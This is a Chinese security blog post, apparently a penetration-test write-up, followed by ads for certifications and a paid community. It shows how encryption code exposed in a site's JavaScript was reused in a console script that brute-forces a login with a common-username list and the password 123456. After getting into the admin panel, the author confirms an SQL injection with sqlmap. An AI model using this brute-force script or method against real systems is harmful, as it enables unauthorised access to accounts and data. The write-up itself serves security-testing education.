 #  记一次前端js加解密泄露引发的漏洞   
C4安全团队运营  不秃头的安全   2025-04-16 09:54  
  
## 记一次前端js加解密泄露引发的漏洞  
```
前言：本文中涉及到的相关技术或工具仅限技术研究与讨论，严禁用于非法用途，否则产生的一切后果自行承担，如有侵权请私聊删除。还在学怎么挖通用漏洞和src吗？知识星球在最下方，续费也有优惠私聊~~考安全证书请联系vx咨询。
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/DicRqXXQJ6fWaOQhXOf0cibja9IiaN9XvbmE5jLs5PByGh6NEsygeaAwonoQf8yKn2DtF6ZC0FshCkm3icyxic2lWqQ/640?wx_fmt=other&from=appmsg "")  
  
  
前端js中往往存有前后端交互时候的加密方法，稍加利用就能达到对加密密码进行爆破的目的。本文中的案例就是这样展开的，从加解密方法泄露到弱口令进入后台，最后再后台SQL注入获取权限  
  
首先测试系统遇到经典登录框  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRPB8LAoicALgsdtxmen9tiaseBt1ZIia2EZ9yKdp0URia8aKwjW3Rr9tLzibkpPNofc9BnyxuBjccgW2Q/640?wx_fmt=png&from=appmsg "")  
  
输入用户名密码，点击登录以后会抓到一个如下登录数据包：  
  
请求路径为/log_in，传参为加密的param  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRPB8LAoicALgsdtxmen9tiaslmjibuSwDyMicnWuXfxmvteec3vWnYbjqtJFIuW2jLVcxUOnUd9f85qQ/640?wx_fmt=png&from=appmsg "")  
  
param参数明显加密了，但是加解密方法写在前端js当中  
  
观察网站系统加载的js，  
在loginbar.js中，写明了参数加密的方法是xs_strEnccs  
  
参数格为：  
'username='+username+'&password='+password+'&rootsrc=3'  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRPB8LAoicALgsdtxmen9tias59tOZaHdRsaCbLOicH6BaG3OwVGFQBeibLHSgxnkfLicdRwWrOOGZkShw/640?wx_fmt=png&from=appmsg "")  
  
追踪方法，发现xs_strEnccs又调用了strEnc方法，而解密参数的方法名称为xs_strDec  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRPB8LAoicALgsdtxmen9tiasibaoXvBhLPQdwIZjOY6DtKXgZFdDXd5oH4MaRYrSiaov54FZchWfEELg/640?wx_fmt=png&from=appmsg "")  
  
点击忘记密码跳转到其他页面，观察js代码  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRPB8LAoicALgsdtxmen9tiasJz6hrrYiatnEFoia1lTROqgerAibwCVGsYOEHDyJxEYyVH1rib1IseA35g/640?wx_fmt=png&from=appmsg "")  
  
在该找回密码页面中，可以找到strEnc方法，这个方法正式对密文进行加密的子方法  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRPB8LAoicALgsdtxmen9tiasOndDSPMP6phc97ibVSEHriaQPZCXkw156uahKOBtFic7ngibbOTeLzTzoA/640?wx_fmt=png&from=appmsg "")  
  
这样到这一步，完整的加密方法都理清楚了，大致步骤如下  
```
xs_strEnccs调用了strEnc，传参为登录字符串，还有654321
```  
  
登录时候也没有验证码，可以构造用户名不唯一、密码默认为123456的登录字符串来进行弱口令爆破。比如这样的：  
```
username=xxx&password=123456&rootsrc=3
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRPB8LAoicALgsdtxmen9tiasRpSLmK2IReTT8H7DZgg2XM54G0MNgBkoA2px6WNBgSJcGIicAdXbf2g/640?wx_fmt=png&from=appmsg "")  
  
为了图方便，我写了一个可以直接在浏览器控制台输出加密param的脚本，将最简单的弱口令密码本在控制台中进行加密转换为密文：  
  
```
const usernames = ["admin", "test", "test01", "test1", "test2", "weblogic", "ftp", "manager", "manage", "user", "guest", "administrator",
"account", "super", "superuser", "master", "imap", "memcached", "mongodb", "oracle", "pop3", "postgresql", "rdp",
"redis", "smb", "smtp", "sqlserver", "ssh", "svn", "telnet", "tomcat", "vnc", "xiaomi", "huawei", "apple", "topsec",
"360", "qihoo", "1688", "aliyun", "alipay", "www", "web", "webadmin", "webmaster", "anonymous", "jboss", "1", "admin1",
"root", "sever", "system", "develop", "developer", "developers", "development", "demo", "device", "devserver", "devsql",
"0", "01", "02", "03", "10", "11", "12", "13", "14", "15", "16", "17", "18", "19", "2", "20", "3", "3com", "4", "5",
"6", "7", "8", "9", "ILMI", "a", "zhangwei", "wangwei", "wangfang", "liwei", "lina", "zhangmin", "lijing", "wangjing",
"liuwei", "wangxiuying", "zhangli", "lixiuying", "wangli", "zhangjing", "zhangxiuying", "liqiang", "wangmin", "limin",
"wanglei", "liuyang", "wangyan", "wangyong", "lijun", "zhangyong", "lijie", "zhangjie", "zhanglei", "wangqiang", "lijuan",
"wangjun", "zhangyan", "zhangtao", "wangtao", "liyan", "wangchao", "liming", "liyong", "wangjuan", "liujie", "liumin", "lixia",
"lili", "zhangjun", "wangjie", "zhangqiang", "wangxiulan", "wanggang", "wangping", "liufang", "liuyan", "liujun", "liping",
"wanghui", "chenjing", "liuyong", "liling", "liguiying", "wangdan", "ligang", "lidan", "wangpeng", "liutao", "chenwei",
"zhanghua", "liujing", "litao", "wangguiying", "zhangxiulan", "lihong", "lichao", "liuli", "zhangguiying", "wangyulan",
"zhangpeng", "lixiulan", "zhangchao", "wangling", "zhangling", "lihua", "wangfei", "zhangyulan", "wangguilan", "wangying",
"liuqiang", "chenxiuying", "liying", "lihui", "limei", "chenyong", "wang", "lifang", "zhangguilan", "libo", "yangyong",
"wangxia", "liguilan", "wangbin", "lipeng", "zhangping", "zhanghui", "zhangyu", "liuju", "xujing", "yanghong", "yangziwen", "zhangshulan", "zhangwen", "chenguilan", "zhouli", "lishuhua", "chen", "machao",
"liujianguo", "liguihua", "wangfenglan", "lishulan", "chenxiuzhen"
];
for (let i = 0; i < usernames.length; i++) {
const result = 'username='+usernames[i]+'&password=123456&rootsrc=3' const result2 = xs_strEnccs(result); console.log(result2); }
```  
  
调用现成的js里的加密函数进行加密，效果如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRPB8LAoicALgsdtxmen9tiasClMxeumKzDyO13wnj8UicLjYl80skic2icSYFezbn1jVjUzC9CicPfzh4A/640?wx_fmt=png&from=appmsg "")  
  
加密完的字典之后，将登录的数据包直接转发到burp的intruder中替换参数进行爆破  
  
爆破显示状态码为537时，登录成功，此时的param为  
```
2D54C345E9883022B05FA18CDC024536EE4A58B6C5BBA9449ED0BAF1115B734923153A77E0449A6FC2CF1D90227EB5EE4D4C437553E62E12CA570C1934CE6FCC5D98631EB611684F6853A618AFAAF53267ADABEF2D9C279B
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRPB8LAoicALgsdtxmen9tiasvPv97XiaQkAXJhmEUAmUKekyykFLcygl1Yk8EsjwjRy8L9WoMAZwJgw/640?wx_fmt=png&from=appmsg "")  
  
此时再在js中调用解密方法，解密弱口令如下：  
  
webmaster/123456  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJRPB8LAoicALgsdtxmen9tias1CahBPtX7tSEvya0JZGc7MZJ1wbI3eqrsRDQHX8u1T2o7upgyPrY6A/640?wx_fmt=jpeg "")  
  
但是直接输入账号密码webmaster/123456登录会报错，还需要传个参数rootsrc=3，这应该是另一种登录方式中存在的弱口令  
  
所以登录时抓包，再替换数据包里面的param值，放包以后就能正常登录  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRPB8LAoicALgsdtxmen9tiasrawLRVtNUDpOYC639lRZUS88ibk4Q8d3dlm0vOZTSZkYVGvFQWs5hmQ/640?wx_fmt=png&from=appmsg "")  
  
最后成功以webmaster账户登录进入后台  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRPB8LAoicALgsdtxmen9tiaswSSYn5QRztdmPAGG4ZjzqeH9KZZXXF7jN8ybJqY5qYEYibNtU5y2wicg/640?wx_fmt=png&from=appmsg "")  
  
后台用户管理处泄露大量敏感信息  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRPB8LAoicALgsdtxmen9tiasIYguFZOm39EvHibEribAJB5aI5KvFRLuYqQ5ba24FAzra3QFfJliaY51w/640?wx_fmt=png&from=appmsg "")  
  
接下来就是后台漏洞挖掘了  
  
  
登录成功webmaster后，可以发现一个后台接口存在注入，这里没存截图只有个数据包，完全没有过滤的注入  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRPB8LAoicALgsdtxmen9tiasWA3jnf1jcIuBaCYCHpPXXlMt1DialgODALvzoAZZgWUBwRenCy3Ve2Q/640?wx_fmt=png&from=appmsg "")  
  
参数classname存在注入，使用sqlmap进行验证数据包，后端数据库为Oracle  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRPB8LAoicALgsdtxmen9tiasqeaWecksvgUqI1Pn5ibZRYoWzwTy3YhkY9tqV1X1qlWuz9icib3tsBbMw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRPB8LAoicALgsdtxmen9tias1c8ILPAKTScvzbicfKhjiceB0pviarLOBSVq6QDN7nbbEk7YAQOtt8WYQ/640?wx_fmt=png&from=appmsg "")  
  
测试结束  
  
往期推荐：  
  
[](https://mp.weixin.qq.com/s?__biz=Mzg3NzkwMTYyOQ==&mid=2247488962&idx=1&sn=a26633d99fee43bf45e99597ff707d00&scene=21#wechat_redirect)  
[](https://mp.weixin.qq.com/s?__biz=Mzg3NzkwMTYyOQ==&mid=2247488931&idx=1&sn=1f3be7e7b57d73d7ccf52de34746bac6&scene=21#wechat_redirect)  
[](https://mp.weixin.qq.com/s?__biz=Mzg3NzkwMTYyOQ==&mid=2247488900&idx=1&sn=ae19a94a573cc8b300bd571039149b36&scene=21#wechat_redirect)  
  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/5XMBWuTy1YdnTAAczP5ENGmlT9xMEAsJuTqV6jib7IyxImNprOeHxrbPLFkKfEPfh2U829KgfaTYB6NLOmx9Ykg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**关于我们:**  
  
感谢各位大佬们关注-不秃头的安全，后续会坚持更新渗透漏洞思路分享、安全测试、好用工具分享以及挖掘SRC思路等文章，同时会组织不定期抽奖，希望能得到各位的关注与支持，考证请加联系vx咨询。  
  
  
## 1. 需要考以下各类安全证书的可以联系  
  
绝对低价绝对优惠，CISP、PTE/PTS、DSG、IRE/IRS、NISP、PMP、CCSK、CISSP、ISO27001、IT服务项目经理等等巨优惠，学生报pte 有优惠，想加群下方链接：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/DicRqXXQJ6fWaOQhXOf0cibja9IiaN9XvbmuZfhZj5ufFf22ViaiaArTUr5dm7JlRwLpBlYsf38Xu76Dsnq3xxzBr1A/640?wx_fmt=jpeg&from=appmsg "")  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/DicRqXXQJ6fXFlWiaGLukicZa30CPQibNT2Cu261kSHeQxBEYHMlPrYiabs5q6LVx7ex8jS0Q5MYOWZmVnCR7YFtBqg/640?wx_fmt=jpeg&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
## 2. 需要入星球的可以私聊优惠  
  
星球里有什么？  
```
1、维护更新src、cnxd、cnnxd专项漏洞知识库，包含原理、挖掘技巧、实战案例2、fafo/零零信安高级会员key3、POC及CXXD及CNNXD通用报告详情分享思路4、知识星球专属微信“内部圈子交流群”5、分享src挖掘技巧tips6、最新新鲜工具分享7、不定期有工作招聘内推（工作/护网内推）8、攻防演练资源分享(免杀，溯源，钓鱼等)9、19个专栏会持续更新~提前续费有优惠，好用不贵很实惠
```  
  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/DicRqXXQJ6fXFlWiaGLukicZa30CPQibNT2Csh9A9qkO6QC8Cg4TpA0aP7D0RR0YJ5bhWYWeNtLibia6DaCvkQwnz00A/640?wx_fmt=jpeg&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
## 3、其他合作（合法合规）  
  
1、承接各种安全项目，需要攻防团队或岗位招聘都可代发、代招（灰黑勿扰）；  
  
2、各位安全老板需要文章推广的请私聊，承接合法合规推广文章发布，可直发、可按产品编辑推广；  
合作、推广代发、安全项目、岗位代招均可发布![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/DicRqXXQJ6fUnGo23GUq3ovbSwOYN8EMeElSz5gB5YUZyF295hXmx2ibZd8Il3WYxrY7JoEKLXXMlTD7LftvibzuQ/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
